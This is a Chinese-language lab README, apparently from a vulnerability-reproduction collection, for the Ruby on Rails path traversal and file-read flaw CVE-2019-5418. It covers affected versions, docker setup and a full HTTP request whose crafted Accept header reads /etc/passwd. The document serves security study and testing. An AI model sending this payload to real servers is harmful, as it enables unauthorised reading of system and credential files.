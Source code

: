 # Ruby on Rails 路径穿越与任意文件读取漏洞（CVE-2019-5418）

Ruby on Rails 是一个用于快速构建Web应用的框架。

在Ruby on Rails <5.2.2.1, <5.1.6.2, <5.0.7.2, <4.2.11.1 and v3时，当使用`render file`在控制器中渲染应用之外的视图时，会根据用户传入的Accept头来确定文件具体位置。我们通过传入`Accept: ../../../../../../../../etc/passwd{{`头来构成构造路径穿越漏洞，读取和包含任意文件。

参考链接：

- https://groups.google.com/forum/#!topic/rubyonrails-security/pFRKI96Sm8Q
- https://xz.aliyun.com/t/4448

## 环境搭建

执行如下命令编译及启动Ruby on Rails 5.2.2：

```
docker compose build
docker compose up -d
```

环境启动后，访问`http://your-ip:3000`即可看到Ruby on Rails的欢迎页面。

## 漏洞复现

访问`http://your-ip:3000/robots`可见，正常的robots.txt文件被读取出来。

利用漏洞，发送如下数据包，读取`/etc/passwd`：

```
GET /robots HTTP/1.1
Host: your-ip:3000
Accept-Encoding: gzip, deflate
Accept: ../../../../../../../../etc/passwd{{
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close


```

成功读取：

![](1.png)
